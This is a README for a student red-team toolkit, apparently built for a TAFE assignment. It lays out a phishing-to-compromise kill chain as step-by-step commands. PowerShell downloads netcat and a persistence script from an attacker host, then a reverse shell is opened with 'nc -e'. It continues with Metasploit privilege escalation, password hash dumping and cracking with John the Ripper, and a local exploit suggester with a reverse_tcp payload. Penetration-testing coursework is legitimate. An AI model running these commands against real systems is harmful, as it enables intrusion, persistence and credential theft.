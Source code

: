 # THANATOS_77
![DALL·E 2023-05-08 18 37 02 - A glitch art knife ](https://user-images.githubusercontent.com/111553838/236778209-067c7d06-df52-4e1e-8683-e4ab827cc76b.png)

TRITIUM CYBER DEFENCE © All Rights Reserved 2023 

HTTP and malware delivery system for tafe assignment 

# PURPOSE

Provide a way for our team to serve files, extract data, and export data 
to create reports for our final assesment on a red team engagemnt. 

# SIMPLI X KILL CHAIN 

1. Recon and sniffing 
2. Configuring payloads  
3. get credentials from phishing a confidential document (enter password to open) 
4. use credentials to download and launch a netcat listener 
5. open a reverse shell and use the scp protocol to exfiltrate data 
6. Launch a cleaner program, DOS test 
7. Reboot to clear RAM 
All steps are sub 15 minutes total.  

# INSTALL 
## Clone the repo, allow config yada yada 

# CONFIG 
config here: should be handled by scripts 

# MANIFEST FOR TAFE ASSIGNMENT 

-Run msfstarter.py

-Run an appropriate flask program (Suggested is FLASK_25.py

-Target downloads document from generator from phishing

-All of the scripts require testing and configuration to verify the flask structure for get requests etc 

-In msf console commands: 

```
powershell -c "Invoke-WebRequest -Uri 'http://10.1.1.1:8080/persistence.bat' -OutFile 'persistence.bat'"
powershell -c "Invoke-WebRequest -Uri 'http://10.1.1.1:8080/nc.bin' -OutFile 'nc.exe'"
```

-Start netcat listner in kali 

``` 
nc -lvp 8339
```

-Go back to msf console and run following to start netcat shells and persistance 

```
nc.exe 10.1.1.1 8339 -e
```

-Metasploit privalage escalation V1: 
    In msf console try: 
    
```
meterpreter > getsystem
```

If successful you will have system access, if not:
Simultaneously perform the following and the manual steps below: 

```
meterpreter > hashdump 
meterpreter > hashdump > hashes.txt
john --format=NT hashes.txt
```
In another shell run to crack with wordlist: 

```
john --format=NT --wordlist= PATH TO WORDLIST HERE/.txt hashes.txt
```
A default wordlist for the tafe assignment is provided in the uploads directory. 

MANUALLY PERFORMING TASKS INCASE OF PYTHON AUTOMATION FALIURE. 
*****Replace <session_id> with the ID of your Meterpreter session.***

```
meterpreter > sysinfo 
meterpreter > background 
msf > use post/multi/recon/local_exploit_suggester
msf post(local_exploit_suggester) > set SESSION <session_id>
msf post(local_exploit_suggester) > set SHOWDESCRIPTION true
msf post(local_exploit_suggester) > run
```

From the list of suggested exploits, choose an appropriate one based on the target system's architecture and vulnerability. 

Set up and run the chosen exploit:

bash:
```
msf > use <exploit_name>
msf exploit(<exploit_name>) > set SESSION <session_id>
msf exploit(<exploit_name>) > set payload windows/meterpreter/reverse_tcp
msf exploit(<exploit_name>) > set LHOST <your_kali_ip>
msf exploit(<exploit_name>) > set LPORT <your_listener_port>
msf exploit(<exploit_name>) > exploit
```
If the exploit is successful, you should have a new Meterpreter session with administrator privileges. Use the hashdump command to dump the password hashes from the system:


## No warranty: 
Specific networked infrastructure for automating an attack. 
    Copyright (C) <2023>  <Anthony Grace and his team from Tafe>

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <https://www.gnu.org/licenses/>.
